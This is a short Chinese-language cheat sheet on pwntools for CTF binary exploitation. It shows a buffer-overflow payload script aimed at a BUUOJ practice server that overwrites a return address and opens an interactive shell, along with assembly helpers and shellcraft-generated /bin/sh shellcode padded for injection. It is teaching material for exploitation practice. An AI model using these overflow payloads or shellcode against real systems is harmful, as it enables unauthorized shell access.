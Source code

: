 





### 传递到终端

```python
p.interactive()
接受信息并且在终端操作，程序拿到shell
```





### 一个最基本的payload如下：

```python
from pwn  import *
import pwnlib
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')

if __name__ == '__main__':
	
	HOST = 'node4.buuoj.cn'
	PORT = 29105
	conn = remote(HOST ,PORT)
	payload = "A"*0x17 + p64(0x40118A)
	conn.sendline(payload)
	conn.interactive()
```



### 汇编与反汇编



```python
>>> asm('mov eax, 0')   #汇编
'\xb8\x00\x00\x00\x00'

>>> disasm('\xb8\x0b\x00\x00\x00')  #反汇编
'mov    eax,0xb'
```



### shellcode

```python
context(os='linux', arch='i386')
# 表示将当前执行上下文的体系结构设置为i386(这里的i386可以通过checksec来查看文件是什么架构的  
shellcode = asm(shellcraft.sh())
# asm()是把括号内的内容编译成机器码(只有机器码才可以执行)，一般用来打入后门。pwntools自带的后门函数，可以生成类似system('/bin/sh/')这样功能的汇编代码 
# 通常可以配合  .ljust() 来使用  
shellcode.ljust(112, b'A')  
# 这里的 .ljust() 是 Python 中字符串对象的方法，用于在字符串的右侧填充指定的字符，使字符串达到指定的长度。

```
